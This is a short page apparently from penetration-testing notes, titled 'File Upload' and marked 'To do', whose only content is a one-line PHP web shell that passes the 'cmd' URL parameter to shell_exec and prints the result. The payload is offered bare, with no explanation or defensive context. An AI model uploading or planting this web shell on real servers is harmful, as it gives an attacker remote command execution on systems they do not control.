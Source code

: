 # File Upload

To do



{% code overflow="wrap" %}
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
{% endcode %}
